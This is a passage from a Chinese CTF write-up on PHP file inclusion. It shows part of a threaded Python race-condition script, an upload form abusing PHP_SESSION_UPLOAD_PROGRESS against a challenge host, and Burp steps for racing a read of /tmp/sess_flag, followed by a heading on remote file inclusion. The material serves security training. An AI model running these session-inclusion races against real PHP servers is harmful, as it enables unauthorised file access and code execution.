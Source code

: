 ```
    event.set()
    #会话机制(Session）在PHP 中用于保持用户连续访问Web应用时的相关数据
    with requests.session() as session:
        for i in range(1,30):
            threading.Thread(target=write, args=(session,)).start()
        for i in range(1,30):
            threading.Thread(target=read, args=(session,)).start()
```

上传的有关信息

[![](https://p4.ssl.qhimg.com/t0113b9c83fae95318b.png)](https://p4.ssl.qhimg.com/t0113b9c83fae95318b.png)

自己设置的键值因为是php所以解析掉了

[![](https://p1.ssl.qhimg.com/t0171e5005d3d8ba2bc.png)](https://p1.ssl.qhimg.com/t0171e5005d3d8ba2bc.png)

这样就可以得到flag了,除此之外，还可以使用burp来进行条件竞争，例如上面官方给的html上传代码上传一个文件

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
&lt;body&gt;
&lt;form action="http://5303095a-4023-42e2-b099-30486f1b3323.chall.ctf.show/" method="POST" enctype="multipart/form-data"&gt;
&lt;input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123456" /&gt;
&lt;input type="file" name="file" /&gt;
&lt;input type="submit" value="submit" /&gt;
&lt;/form&gt;
&lt;/body&gt;
&lt;/html&gt;
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01c4e64d6318dcf622.png)

再根据代码抓一个get的包，请求/tmp/sess_flag

[![](https://p0.ssl.qhimg.com/t012b6c7118a3fea0cc.png)](https://p0.ssl.qhimg.com/t012b6c7118a3fea0cc.png)

同时进行爆破，payload设置成null payloads就可以一直爆破

[![](https://p4.ssl.qhimg.com/t0116449e8ee9722405.png)](https://p4.ssl.qhimg.com/t0116449e8ee9722405.png)

### <a class="reference-link" name="%E8%BF%9C%E7%A8%8B%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB"></a>远程文件包含

> <p>利用前提：<br>
allow_url_fopen = On 是否允许打开远程文件<br>
allow_url_include = On 是否允许include/require远程文件</p>
